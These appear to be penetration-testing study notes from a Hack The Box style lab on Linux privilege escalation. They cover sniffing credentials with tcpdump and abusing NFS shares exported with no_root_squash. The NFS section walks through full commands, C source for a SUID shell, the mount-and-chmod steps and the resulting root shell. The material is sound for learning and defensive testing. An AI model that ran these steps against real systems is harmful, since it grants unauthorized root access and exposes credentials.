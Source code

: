 ## Passive Traffic Capture


IF `tcpdump` is installed, unprivileged users may be able to capture network traffic, 
* including, in some cases, credentials passed in cleartext.
* Several tools exist, 
* such as [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz)
This may result in capturing sensitive information 
* such as credit card numbers and SNMP community strings.
* It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes,
	* which could be subjected to an offline brute force attack to reveal the plaintext password. 
* Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

## Weak NFS Privileges
* Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. 
	* NFS uses TCP/UDP port 2049. 
		* Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.
```shell-session
canklesmaks@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```
* When an NFS volume is created, various options can be set:
	* `root_squash
		* If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set.
	* `no_root_squash``
		* Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.
```shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.
```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```
When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.
```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```


